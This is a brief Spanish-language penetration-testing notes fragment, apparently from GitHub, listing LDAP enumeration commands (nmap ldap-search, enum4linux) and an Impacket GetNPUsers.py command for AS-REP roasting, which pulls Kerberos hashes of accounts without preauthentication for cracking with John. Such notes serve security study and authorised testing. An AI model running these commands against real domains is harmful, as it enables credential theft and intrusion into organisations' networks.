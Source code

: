 # LDAP
```
nmap --script ldap-search
enum4linux <ip>
```

# Kerberos
Podemos obtener TGT con el hash del user para aquellos users que tengan la propiedad 'Do not require Kerberos preauthentication'. La salida esta lista para john
```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <domain name>/<userame> -dc-ip <ip> -no-pass
```
